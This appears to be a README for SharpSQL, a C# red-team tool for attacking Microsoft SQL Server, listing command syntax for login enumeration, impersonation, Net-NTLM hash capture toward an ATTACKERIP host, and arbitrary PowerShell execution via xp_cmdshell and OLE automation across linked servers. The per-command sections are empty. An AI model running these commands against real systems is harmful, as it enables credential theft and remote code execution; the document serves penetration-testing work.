

# SharpSQL

----

SharpSQL is a C# tool for Microsoft SQL interaction and abuses. 

### Command Line Usage

    ███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
    ██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
    ███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
         ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
    ███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                        ▀▀
    Written By: Jb05s | Version: 1.2.0 (02/23/2023)

    MSSQL Authenticated Server Enumeration and Impersonation:

        [1] Retrieve Login Information on the Connected SQL Server:
                SharpSQL.exe getlogin /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Retrieve Information on SQL Login, Mapped User, and Available User Roles:
                SharpSQL.exe getdbuser /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Retrieve the Net-NTLM Hash for the Service Account of the Connected SQL Server:
                SharpSQL.exe gethash /db:DATABASE /server:SERVER /ip:ATTACKERIP [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [4] Retrieve a List of Linked SQL Servers on the Connected SQL Server:
                SharpSQL.exe getlinked /db:DATABASE /server:SERVER [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    MSSQL Command Execution:
    
        [1] Base64 Encode an Arbitrary String for the '/command' Switch:
                SharpSQL.exe encode /command:STRING
        [2] Execute Arbitrary Encoded PowerShell Command via 'xp_cmdshell':
                SharpSQL.exe xp /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Execute Arbitrary Encoded PowerShell Command via 'Ole Automation Procedures':
                SharpSQL.exe ole /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    MSSQL Linked Server Command Execution:

        [1] Action: Execute Procedures to Get Login Information on Linked SQL Server:
                SharpSQL.exe linkedlogin /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Action: Execute Encoded PowerShell 'whoami' Command on Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe linkedxplogin /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Retrieve the Net-NTLM Hash for the Service Account of the Linked SQL Server:
                SharpSQL.exe linkedhash /db:DATABASE /server:SERVER /target:TARGET /ip:ATTACKERIP [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [4] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell' with 'OPENQUERY':
                SharpSQL.exe linkedquery /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [5] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe linkedxp /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [6] Configure Linked SQL Server to Allow RPC connections:
                SharpSQL.exe linkedrpc /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    MSSQL Double Linked Server Command Execution:

        [1] Action: Execute Procedures to Get Login Information on Double-Linked SQL Server:
                SharpSQL.exe dbllinkedlogin /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Action: Execute Encoded PowerShell 'whoami' Command on Double-Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe dbllinkedxplogin /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Execute Encoded PowerShell Command on a Double Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe dbllinkedxp /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

### getlogin

### getdbuser

### gethash

### getlinked

### encode

### xp

### linkedlogin

### linkedxplogin

### linkedhash

### linkedxp

### linkedrpc

### dbllinkedlogin

### dbllinkedxplogin

### dbllinkedxp

